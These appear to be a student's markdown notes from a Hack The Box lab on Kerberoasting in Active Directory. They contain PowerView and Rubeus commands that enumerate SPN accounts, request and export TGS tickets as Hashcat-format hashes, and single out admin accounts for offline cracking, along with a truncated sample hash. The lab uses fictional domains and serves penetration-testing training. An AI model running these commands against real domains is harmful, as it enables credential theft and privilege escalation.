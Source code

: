 ## tools

### powerview

 Enumerate SPN Accounts
```powershell-session
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
```
From here, we could target a specific user and retrieve the TGS ticket in Hashcat format.
```powershell-session
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
we can export all tickets to a CSV file for offline processing.
```powershell-session
PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

---
## Rubeas

#### running `./rubeas.exe`:
![[Pasted image 20250724115415.png]]
As we can see from scrolling the Rubeus help menu, the tool has a vast number of options for interacting with Kerberos, most of which are out of the scope of this module and will be covered in-depth in later modules on advanced Kerberos attacks. It is worth scrolling through the menu, familiarizing yourself with the options, and reading up on the various other possible tasks.
#### Using the /stats Flag
```powershell-session
.\Rubeus.exe kerberoast /stats
```
![[Pasted image 20250724115500.png]]

We can first use Rubeus to gather some stats. From the output below, we can see that there are nine Kerberoastable users, seven of which support `RC4` encryption for ticket requests and two of which support `AES 128/256.`
We also see that all nine accounts had their password set this year (2022 at the time of writing). If we saw any SPN accounts with their passwords**set 5 or more years ago**, they could be promising targets as they could have a weak password that was set and never changed when the organization was less mature.

 request tickets for accounts with the `admincount` attribute set to `1`. These would likely be high-value targets and worth our initial focus for offline cracking efforts with Hashcat. Be sure to specify the `/nowrap` flag so that the hash can be more easily copied down for offline cracking using Hashcat.
```powershell-session
 .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
```powershell-session
[*] Total kerberoastable users : 3


[*] SamAccountName         : backupagent
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*backupagent$INLANEFREIGHT.LOCAL$backupjob/veam001.inlanefreight.local@IN
```

---